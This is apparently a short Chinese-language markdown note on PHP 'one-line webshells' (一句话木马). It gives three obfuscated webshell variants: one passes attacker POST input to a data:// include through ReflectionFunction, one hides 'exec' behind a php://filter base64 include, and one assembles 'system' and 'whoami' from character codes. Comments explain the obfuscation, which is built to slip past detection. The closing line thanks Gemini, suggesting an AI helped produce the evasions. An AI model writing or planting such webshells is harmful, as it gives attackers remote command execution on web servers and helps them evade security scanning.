




一句话木马

```
<?php
// PHP 代码反射
// 动态获取 ReflectionFunction 类
$reflection_class_name = 'Reflection' . 'Function';
$reflection_class = new ReflectionClass($reflection_class_name);

// 创建一个匿名函数
$callable_func = function($code) {
    // 这里使用一个不常见的函数来间接执行
    ob_start();
    include 'data://text/plain;base64,' . base64_encode($code);
    ob_end_clean();
};

// 构造一个 ReflectionFunction 对象
$reflection_func = $reflection_class->newInstance($callable_func);

// 通过反射调用函数，并传入要执行的代码
$reflection_func->invoke($_POST['pass']);
?>
```



此基础上思考有没有其他方式，达到安全



```
<?php
// 使用 php://filter 和 convert.base64-decode 过滤器
// 这里的 'e'.'xec' 是一个简单的混淆
$file = 'php://filter/convert.base64-decode/resource=data://text/plain;base64,'.base64_encode('<?php (' . 'e'.'xec')('whoami');?>');

// include 文件，执行解码后的代码
include($file);
?>
```



```
<?php
// 将函数名 'system' 拆分
$func_name = implode('', [chr(115), chr(121), chr(115), chr(116), chr(101), chr(109)]);

// 将命令拆分，例如 'whoami'
$command = implode('', [chr(119), chr(104), chr(111), chr(97), chr(109), chr(105)]);

// 通过变量函数动态调用
$func_name($command);
?>
```



#### 感谢Gemini